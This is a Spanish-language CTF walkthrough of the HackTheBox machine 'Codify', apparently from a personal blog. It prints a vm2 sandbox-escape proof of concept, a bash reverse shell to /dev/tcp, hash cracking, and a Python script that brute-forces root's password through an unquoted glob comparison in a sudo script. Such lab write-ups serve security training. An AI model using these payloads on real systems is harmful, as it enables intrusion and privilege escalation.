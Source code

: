 ```yaml
---
layout: post
title: Codify
parent: HackTheBox
---
```

# Codify
{: .no_toc }

## Contenidos
{: .no_toc .text-delta}

1. TOC
{:toc}

---
{:.lead}
![](/assets/img/HTB_Codify/C1.png)

## Fase de Reconocimiento

Esta maquina tiene dificultad **EASY**, es muy divertida de resolver y es ideal para practicar **Python**

Iniciamos comprobando nuestra conectividad con la maquina, por medio de un ping:
![](/assets/img/HTB_Codify/C2.png)
>> No olvidemos que el TTL para sistemas Linux es <=64 
Comprobada la conectividad, procederemos a hacer un scanneo con **nmap**, ya sea con el siguiente comando:

```bash
sudo nmap -sS -p- --open --min-rate 4500 -n -Pn <IP-Maquina>
```
O podemos optar por:
```bash
nmap -T5 --open -Pn <IP>
```
![](/assets/img/HTB_Codify/C3.png)
Como se puede apreciar, tenemos los siguientes puertos abiertos:

- 22; del servicio **SSH**
- 80; del servicioo **HTTP**
- 3000; de un servicio **Node.js**

![](/assets/img/HTB_Codify/C4.png)

### Virtual Hosting

Si podemos apreciar con la herramienta **whatweb** o en su parte, un navegador para ingresar al servicio **HTTP**, veremos un redirect hacia un dominio: **codify.htb**, pero no lo podremos visualizar.
![](/assets/img/HTB_Codify/C5.png)

Esto se resuelve de forma sencilla agregando el dominio al **/etc/hosts**

Podemos optimizar este paso con:

```bash
echo "<IP> codify.htb" | sudo tee -a /etc/hosts
```
![](/assets/img/HTB_Codify/C6.png)

Una vez hecho esto, podremos apreciar la pagina web:
![](/assets/img/HTB_Codify/C7.png)

Como podemos apreciar, nos ofrece un servicio **sandbox**, para codigo Javascript.
Si vamos al apartado de "about us", podremos observar que nos muestra la herramienta usada para el desarrollo de la webside.

![](/assets/img/HTB_Codify/C8.png)

Si hacemos una busqueda rapida, encontraremos el siguiente [CVE](https://github.com/advisories/GHSA-cchq-frgv-rjh5)

![](/assets/img/HTB_Codify/C9.png)

## Intrusion

Si analizamos el CVE:

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('touch pwned'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));
```
Vemos que nos permite escapar del sandbox y nos deja ejecutar codigo dentro del sistema.

Por lo que usaremos este CVE, primero veremos si nos deja ejecutar correctamente un comando y de paso ver si nos permite mandarnos un ping a nuestra maquina atacante.

![](/assets/img/HTB_Codify/C10.png)
Y podemos ver que recibimos el ping:
![](/assets/img/HTB_Codify/C11.png)
Por lo que ahora nos quedaria montarnos una **reverse shell** para interactuar comodamente con la maquina. En mi caso usare:

```bash
bash -c "bash -i &>/dev/tcp/<IP>/Puerto 0>&1"
```
![](/assets/img/HTB_Codify/C12.png)

Como vemos, estamos como el usuario **svc**, si listamos usuarios posibles, veremos que existe un usuario: **joshua**, por lo que tendremos que encontrar la forma de escalar al usuario:
![](/assets/img/HTB_Codify/C13.png)

Vamos a buscar por carpetas interesantes a nivel de sistema, especificamente iremos a la ruta **/var/www/**, esto debido a que aqui se encuentra el servicio web.
![](/assets/img/HTB_Codify/C14.png)

Como podemos apreciar, la carpeta **contact** tiene un archivo interesante: "tickets.db"
![](/assets/img/HTB_Codify/C15.png)

Si apreciamos el contenido podremos apreciar que se trata de un script que tiene un usuario y password encriptada, por lo que nos quedara romper ese hash con **john**.

Una vez crackeada, ya tendremos la password del usuario **joshua**:
![](/assets/img/HTB_Codify/C16.png)
Una vez dentro, nos quedaria listar permisos que nos dejen escalar privilegios.
![](/assets/img/HTB_Codify/C18.png)
Como podemos ver, tenemos el siguiente script que podemos ejecutar como superusuario (root):

```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```
### Entendiendo la vulnerabilidad

Si ponemos atencion en el script, podremos ver que hay una vulnerabilidad muy seria, justamente en la condicional:

```bash
if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```

Esto debido a que podemos escapar la validacion con un simple: *, creando algo parecido a una SQLi, aqui pondre un script sencillo para que lo podamos entender:
![](/assets/img/HTB_Codify/C19.png)

Si podemos apreciar, declaro una variable: **pass** que lueoo sera comparada con una variable **inputpass**, el tema es que si nosotros introducimos un caracter existente de nuestra password y agregamos un * la condicional cumple la funcion de darnos el mensaje: **correcto**, caso contrario, no lo validara.
![](/assets/img/HTB_Codify/C20.png)
Por lo que nos quedara aprovechar que la maquina tiene **Python3** para montarnos un script de fuerza bruta.
![](/assets/img/HTB_Codify/C21.png)
Como podemos apreciar, el script funciona correctamente con nuestro ejemplo, por lo que queda adecuarlo a la maquina.
## PRIVESC

Como vimos, el script de Python que nos montamos funciona muy bien, por lo que adecuado seria:

```python
import string
import subprocess

obtencion = False
password = ""
combinatoria = string.ascii_letters+string.digits
ast="*"

while not obtencion:
    for i in combinatoria:
        command = "echo %s%s%s | sudo /opt/scripts/mysql-backup.sh"%(password,i,ast)
        #print(command)
        o = subprocess.run([command], shell=True,stderr=subprocess.PIPE, stdout=subprocess.PIPE, text=True).stdout
        #print(o)
        if "Password confirmed!" in o:
            password+=i
            print("Encontrada: ", password)
            break
    else:
        obtencion = True

#print(combinatoria)
```
Y como podemos ver, hemos bruteforceado la password del usuario **ROOT**:
![](/assets/img/HTB_Codify/C22.png)
Por lo que solo queda ascender nuestros privilegios:
![](/assets/img/HTB_Codify/C23.png)

# FIN

